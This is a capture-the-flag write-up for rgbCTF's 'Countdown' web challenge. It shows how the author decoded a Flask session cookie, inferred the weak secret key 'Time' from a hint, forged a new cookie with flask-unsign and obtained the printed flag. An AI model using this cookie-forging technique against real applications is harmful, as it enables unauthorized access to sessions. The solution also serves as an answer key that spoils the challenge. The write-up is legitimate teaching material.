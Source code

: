 # Countdown
## Challenge Description
This challenge is simple. All you have to do is wait for the countdown to end to get the flag. The countdown ends one second before the end of the CTF, but you have fast fingers right?

http://challenge.rgbsec.xyz:5000/

## Solution
By inspecting the javascript, you can see that it calculates the countdown based on a flask cookie. 
 
```
> Cookies.get('session');
> "eyJlbmQiOiIyMDIwLTA3LTEzIDE2OjU5OjU5KzAwMDAifQ.XxPyUg.XwWza8N4fQrvZF1cOe4A5WtANlI"
> atob("eyJlbmQiOiIyMDIwLTA3LTEzIDE2OjU5OjU5KzAwMDAifQ")
> "{"end":"2020-07-13 16:59:59+0000"}"
```

The solution is to sign a new Flask cookie with a sooner 'end' date and send that to the server. The webpage hints that "Time is key", which hints the flask secret key is literally "Time".

```
pip install flask-unsign
flask-unsign --sign --cookie "{'end':'2020-07-13 16:59:59+0000'}" --secret "Time"
eyJlbmQiOiIyMDIwLTA3LTEzIDE2OjU5OjU5KzAwMDAifQ.XxP4xA.EeGkDiOwiXmKBBl0qN9otcdO8sE
```

Replace the session cookie with this new value and refresh the page. You should see the flag.

The flag is `rgbCTF{t1m3_1s_k3y_g00d_j0k3_r1ght}`

## Resources
https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce

### Author
[tiraaamisu](https://github.com/Lindzy)